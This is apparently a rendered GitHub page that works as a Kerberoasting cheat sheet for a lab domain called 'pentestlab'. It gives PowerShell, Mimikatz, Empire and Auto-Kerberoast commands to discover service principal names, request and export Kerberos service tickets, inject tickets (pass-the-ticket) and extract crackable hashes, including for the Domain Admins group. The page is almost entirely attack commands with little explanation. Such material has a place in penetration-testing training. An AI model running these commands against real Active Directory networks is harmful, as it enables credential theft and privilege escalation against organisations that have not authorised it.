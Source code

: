 # PowerShell

**SPN Discovery**
```
setspn -T pentestlab -Q */*
```
**Service Ticket Request**
```
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "PENTESTLAB_001/WIN-PTELU2U07KG.PENTESTLAB.LOCAL:80"
```
**List Available Tickets**
```
klist
```
# Mimikatz

**Service Ticket Request**
```
kerberos::ask /target:PENTESTLAB_001/WIN-PTELU2U07KG.PENTESTLAB.LOCAL:80
```
**List Available Tickets**
```
kerberos::list
```
**Export Service Tickets**
```
kerberos::list /export
```
**Inject Ticket**
```
kerberos::ptt PENTESTLAB.kirbi
```
# Empire

**SPN Discovery**
```
usemodule situational_awareness/network/get_spn
```
**Export Service Tickets**
```
usemodule credentials/mimikatz/extract_tickets
```
**Kerberoast**
```
usemodule credentials/invoke_kerberoast
```
# Auto-Kerberoast

**SPN Discovery**
```
List-UserSPNs
```
**Service Ticket Request & Hash Extraction**
```
Invoke-AutoKerberoast
```
**Service Ticket Request & Hash Extraction for Domain Admins**
```
Invoke-AutoKerberoast -GroupName "Domain Admins" -Domain pentestlab.local -HashFormat John
```
